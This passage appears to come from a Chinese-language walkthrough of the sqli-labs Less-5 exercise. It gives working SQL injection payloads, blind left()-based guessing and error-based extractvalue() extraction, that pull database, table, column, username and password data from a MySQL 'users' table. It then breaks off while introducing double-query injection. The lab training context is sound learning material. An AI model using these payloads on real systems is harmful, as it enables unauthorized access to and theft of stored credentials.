 爆列名payload

```
http://daishen.ltd:1112/Less-5/?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 0,1),1)='i' --+

http://daishen.ltd:1112/Less-5/?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 0,1),2)='id' --+
```

爆字段payload

```
http://daishen.ltd:1112/Less-5/?id=1' and left((select username from users limit 0,1),1)='d' --+
```

需要注意的是，mysql对大小写不敏感，所以你不知道是Dumb 还是dumb。

### 方法三：报错注入

爆库

```
?id=1' and extractvalue(1,concat(0x23,database(),0x23))--+
```

 爆表名

```
?id=1' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x23))--+

?id=1' and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x23))--+
```

爆列名

```
?id=1' and extractvalue(1,concat(0x23,(select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),0x23))--+
```

爆数据

```
?id=1' and extractvalue(1,concat(0x23,(select password from users order by id limit 0,1),0x23))--+

?id=1' and extractvalue(1,concat(0x23,(select username from users order by id limit 2,1),0x23))--+
```

用limit 可以看所有的数据了。

双注入查询需要理解四个函数/语句

1. Rand() //随机函数

2. Floor() //取整函数

3. Count() //汇总函数
